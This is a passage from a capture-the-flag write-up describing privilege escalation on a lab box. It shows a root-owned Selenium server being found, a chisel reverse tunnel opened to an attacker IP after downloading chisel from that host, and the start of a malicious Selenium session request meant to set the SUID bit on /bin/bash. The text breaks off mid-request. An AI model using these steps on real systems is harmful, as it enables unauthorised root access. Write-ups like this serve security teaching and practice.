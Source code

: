And we get a shell back!

![A screenshot where we got a shell back as john](/static/images/stack-the-flags-2022/user-flag-john.png)

### Privilege Escalation

The first thing i’ve checked is the running processes as root.
In this case, I’ve found a selenium server running as root locally.

```bash
root         623       1  0 14:12 ?        00:00:00 /usr/sbin/cron -f -P
root         638     623  0 14:12 ?        00:00:00  \_ /usr/sbin/CRON -f -P
root         641     638  0 14:12 ?        00:00:00      \_ /bin/sh -c java -jar /root/selenium-server-4.4.0.jar standalone --host 127.0.0.1
root         643     641  0 14:12 ?        00:00:31          \_ java -jar /root/selenium-server-4.4.0.jar standalone --host 127.0.0.1
```

The idea to exploit selenium, is to create a session that executes code.
In simpler words, we can achieve RCE through geckodriver.

First i’ll forward the port `4444` running locally on the machine to my local machine using `chisel`.

I’ll first run a chisel server on my machine

```
hcue@pjsk:~/htb-trustable » chisel server -p 8888 --reverse
2022/12/05 06:10:10 server: Reverse tunnelling enabled
2022/12/05 06:10:10 server: Fingerprint H7MAdhulXPbLGvJaJWk7UmAzd8e/4NPB4rlR4eDaklQ=
2022/12/05 06:10:10 server: Listening on http://0.0.0.0:8888
```

Download chisel to the remote machine and i’ll forward the port

```
john@electrogrid:/dev/shm$ wget 10.10.14.57/chisel
john@electrogrid:/dev/shm$ chmod +x ./chisel
john@electrogrid:/dev/shm$ ./chisel client 10.10.14.57./chisel client 10.10.14.57:8888 R:4444:127.0.0.1:4444 &
./chisel client 10.10.14.57:8888 R:4444:127.0.0.1:4444 &
```

And we’ll get a connection

```
2022/12/05 06:11:47 server: session#1: tun: proxy#R:4444=>4444: Listening
```

Now we can access the Selenium Grid from our machine

![A screenshot of selenium web grid interface](/static/images/stack-the-flags-2022/selenium-grid-web.png)

And now i’ll create the malicious session where it will set the suid bit to the `/bin/bash` binary

```http
POST /wd/hub/session HTTP/1.1
Host: localhost:4444
User-Agent: python-requests/2.27.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/json;charset=utf-8
Content-Length: 276

 {
    "capabilities": {
        "alwaysMatch": {
            "browserName": "chrome",
            "goog:chromeOptions": {
                "binary": "/usr/bin/python3",
```
